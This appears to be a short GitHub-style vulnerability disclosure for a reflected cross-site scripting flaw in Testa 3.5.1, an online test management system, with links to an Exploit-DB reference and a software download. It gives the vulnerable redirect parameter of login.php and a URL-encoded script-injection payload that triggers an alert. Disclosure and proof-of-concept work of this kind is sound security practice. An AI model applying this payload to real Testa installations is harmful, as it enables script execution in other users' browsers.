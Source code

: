 ## Testa-3.5.1 (Cross site scripting)
```
=========================================================================
#
# Testa 3.5.1 Online Test Management System (Cross Site Scripting)
# Version: 3.5.1
# Tested on Linux/Windows
#
=========================================================================
#
# POC (Piye om carane)
# https://localhost/login.php?redirect=[Payloads]
# Payloads: %22%3E%3Cscript%3Ealert(%22Ultraamooz.com%22)%3C/script%3E
#
=========================================================================
```
## Reference
[https://www.exploit-db.com/exploits/51023](https://www.exploit-db.com/exploits/51023)

Software: [https://download.aftab.cc/products/testa/Testa_wos_2.0.1.zip](https://download.aftab.cc/products/testa/Testa_wos_2.0.1.zip)
